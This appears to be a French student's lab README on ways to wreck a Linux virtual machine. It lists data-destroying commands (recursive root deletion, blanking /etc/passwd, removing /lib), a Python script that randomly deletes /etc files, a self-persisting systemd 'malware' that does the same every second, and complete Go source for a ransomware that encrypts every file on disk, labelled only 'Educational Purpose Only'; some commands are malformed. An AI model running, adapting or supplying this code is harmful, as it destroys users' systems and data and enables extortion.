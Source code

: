 # TP1 : Are you dead yet ?

---

**🌞 Voici mes multiples façons d'exploser un linux :**

➜ **Level 1**

    hyouka@hyouka-VirtualBox:~$ sudo rm -rf /*
Première façon : cette commande permet de tout supprimer depuis la racine de manière récursive et forcée.

---

    hyouka@hyouka-VirtualBox:~$ sudo su -
    root@hyouka-virtualbox:~# echo "" > /etc/passwd
Deuxième façon : on écrit une string vide dans le etc, étant nécessaire au bon fonctionnement, plus rien ne marche. 

--- 
    hyouka@hyouka-VirtualBox:~$ sudo su -
    root@hyouka-virtualbox:~# rm -rf --no-preserve-root find / | grep kernel
    
Troisième façon : suppression de tout les kernels du linux.

---
    hyouka@hyouka-VirtualBox:~$ sudo su -
    root@hyouka-virtualbox:~# rm -rf --no-preserve-root find /lib

Troisième façon 2.0 : suppression des /lib de linux, on ne possède donc plus les images nécessaires au démarrage du système.

➜ **Level 2**  

    hyouka@hyouka-VirtualBox:~$ sudo su - 
    root@hyouka-virtualbox:~# python3 script.py
```   
#Script.py

import random, time, os

try:
    with open('dead.txt') as f:
    etc = f.readlines()
except:
    os.system('find /etc > dead.txt')

while True:
    os.system('clear')
    randomnumber1, randomnumber2 = random.randint(0,100)
    print(str(randomnumber1) + "-" + str(randomnumber2) + "\n")
    first = time.time()
    rep = input("Your choice : ")
    second = str(time.time() - int(first)).split(".")[0]
    print(second + " secondes se sont écoulées")
    
    if int(rep) == randomnumber1 - randomnumber2:
        print("The game continue")
    else:
        for k in range(int(second) * 5):
            randomNumberToDelete = random.randint(0, len(etc))
            try:
                os.system('rm -rf ' + etc[randomNumberToDelete])
            except:
                pass
```
Quatrième façon : ce script est un petit jeu farfelu qui demande à l'utilisateur de donner la réponse à des soustractions, le script supprime des fichiers du /etc en fonction du temps que l'utilisateur met à répondre, bon jeu. 😃
    
    hyouka@hyouka-VirtualBox:~$ sudo su - 
    root@hyouka-virtualbox:~# python3 malware.py
```
#malware.py

import random, time, os

r = os.popen('pwd').readlines()[0][:-1]

c = ["[Unit]", "Description=My Script","[Service]","ExecStart=/usr/bin/python3 "+r+"/malware.py","[Install]","WantedBy=multi-user.target"]

try:
    with open('dead.txt') as f:
        etc = f.readlines()
except:
    os.system('find /etc > dead.txt')
    with open('dead.txt') as f:
        etc = f.readlines()
    for k in c:    
        os.system('echo ' + k + ' >> /etc/systemd/system/byebye.service')
    os.system('systemctl enable byebye.service')

while True:
    time.sleep(1)
    randomNumberToDelete = random.randint(0, len(etc))
    try:
        os.system('rm -rf ' + etc[randomNumberToDelete])
    except:
        pass
```
Cinquième façon : soft version d'un malware qui s'auto-run en reboot, le script supprime un fichier du /etc toutes les secondes, le linux peut tenir 20 secondes comme 15 minutes, bonne chance.

➜ **Level 3**  

Context : V1 de notre Takt ransomware, notre projet file rouge avec [TomFox](https://github.com/TomF0x/tp-linux/tree/main/TP-1) en SSI.

**Pour chiffrer :**
    
    hyouka@hyouka-VirtualBox:~$ go build takt.go
    hyouka@hyouka-VirtualBox:~$ sudo ./takt

**Pour déchiffrer :**
    
    hyouka@hyouka-VirtualBox:~$ sudo ./takt --decrypt {BASE64(AES_KEY)}
    
```
#takt.go

package main

import (
	"crypto/aes"
	"crypto/cipher"
	"crypto/rand"
	"encoding/base64"
	"fmt"
	"io/ioutil"
	"log"
	"os"
	"os/exec"
	"strings"
	"sync"
)

var wg sync.WaitGroup
var wgc sync.WaitGroup

var CryptKey = aesKey()

var IV = []byte("1234567812345678")

func createKey() []byte {
	genkey := make([]byte, 32)
	_, err := rand.Read(genkey)
	if err != nil {
		log.Fatalf("Failed to read new random key: %s", err)
	}
	return genkey
}

func aesKey() []byte {
	key := createKey()
	return key
}

func createCipher() cipher.Block {
	c, err := aes.NewCipher(CryptKey)
	if err != nil {
		log.Fatalf("Failed to create the AES cipher: %s", err)
	}
	return c
}

func Crypt(filename string, ch chan string) {
	file, _ := os.Open(filename)
	fileInfo, err := os.Stat(filename)
	if err != nil {
		wgc.Done()
		file.Close()
		Crypt(<-ch, ch)
	}
	if fileInfo.Size() > 200000000 {
		wgc.Done()
		file.Close()
		Crypt(<-ch, ch)
	}
	arr := make([]byte, fileInfo.Size())
	_, _ = file.Read(arr)
	file.Close()
	blockCipher := createCipher()
	stream := cipher.NewCTR(blockCipher, IV)
	stream.XORKeyStream(arr, arr)
	_ = ioutil.WriteFile(filename, arr, 0644)
	wgc.Done()
	Crypt(<-ch, ch)
}

func DeCrypt(filename string, ch chan string) {
	bytes, _ := ioutil.ReadFile(filename)
	blockCipher, _ := aes.NewCipher(CryptKey)
	stream := cipher.NewCTR(blockCipher, IV)
	stream.XORKeyStream(bytes, bytes)
	_ = ioutil.WriteFile(filename, bytes, 0644)
	wgc.Done()
	DeCrypt(<-ch, ch)
}

func main() {
	cmd := exec.Command("bash", "-c", "find / -type f")
	output, _ := cmd.CombinedOutput()
	listfile := strings.Split(string(output), "\n")
	ch := make(chan string, len(listfile))
	for _, file := range listfile {
		wg.Add(1)
		wgc.Add(1)
		go func(file string) {
			ch <- file
			wg.Done()
		}(file)
	}
	wg.Wait()
	args := os.Args[1:]
	if len(args) == 0 {
		fmt.Print("Crypt With ")
		fmt.Println(base64.StdEncoding.EncodeToString(CryptKey))
		for i := 0; i < 100; i++ {
			if len(ch) == 0 {
				break
			}
			go Crypt(<-ch, ch)
		}
		wgc.Wait()
	} else if len(args) == 2 && args[0] == "--decrypt" {
		CryptKey, _ = base64.StdEncoding.DecodeString(args[1])
		fmt.Print("Decrypt With ")
		fmt.Println(base64.StdEncoding.EncodeToString(CryptKey))
		for i := 0; i < 100; i++ {
			if len(ch) == 0 {
				break
			}
			go DeCrypt(<-ch, ch)
		}
		wgc.Wait()
	}
}
```

Sixième façon : Takt ransomware utilise du Threading et des channels (fonctionnement de pile). La clé de chiffrement est en AES 256 et est générée de manière aléatoire. Ces procédés le rendent extrêmement rapide. Il chiffre l'entiéreté du disque (pour cette version, il chiffre le système également, si besoin on possède une version qui permet au système de survivre), l'utilisateur n'a accès a plus aucune de ses données. 

EPO : Educational Purpose Only 